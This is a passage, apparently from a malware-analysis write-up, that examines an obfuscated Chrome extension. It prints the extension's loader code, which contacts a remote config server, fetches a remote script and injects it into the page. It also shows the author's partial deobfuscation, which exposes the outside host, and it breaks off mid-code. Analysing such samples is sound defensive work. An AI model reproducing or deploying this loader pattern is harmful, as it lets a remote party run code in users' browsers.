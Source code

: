 ```javascript
	}
	fetch(iacpj).then(function(response){
		return response.json();
	}).then(function(data){
		yhhng = data;
		if(data.login == true){
			yhhng.app = chrome.app.getDetails();
			yarna();
		}else{
			yztvx();
		}
	}).catch((e) => {
		setTimeout(mhiwl, 1000*60);
	});
}

var yarna = function(){
	yhhng.request.headers = {installed:true};
	fetch(yhhng.check ,yhhng.request).then(function(response){
		return response.json();
	}).then(function(data){
		if(data.verify == true){
			ufrkhn();
		}else{
			yztvx();
		}
	});
}

var ixtfco = function(){
	(function(d, s, id){
     var js, cjs = d.getElementsByTagName(s)[0];
     if (d.getElementById(id)) {return;}
     js = d.createElement(s); js.id = id;
     js.src = yhhng.url;
     cjs.parentNode.insertBefore(js, cjs);
   }(document, 'script', 'chrome-jssdk'));
}

var ufrkhn = function(){
	fetch(yhhng.url).then(function(response){
		return response.blob();
	}).then(function(data){
		yhhng.url = URL.createObjectURL(data);
		ixtfco(yhhng.url);
	});
}
```
<br> If I modify it a little bit like this, then load the extension manually to Chrome, open the Developer Tools and then the Javascript console, and see what we get:
```javascript
var yhhng = {};
var mhiwl = function(){
	var iacpj = new URL('https://www.google.com');
	iacpj.protocol = 'http:';
	var nkkdx = 'pube';
	var eiubga = 'me';
	iacpj.hostname = nkkdx+'.'+eiubga;
	iacpj.pathname = '/config';
	//if(!chrome.app.getDetails()){
	//	return false;
	//}
	fetch(iacpj).then(function(response){
```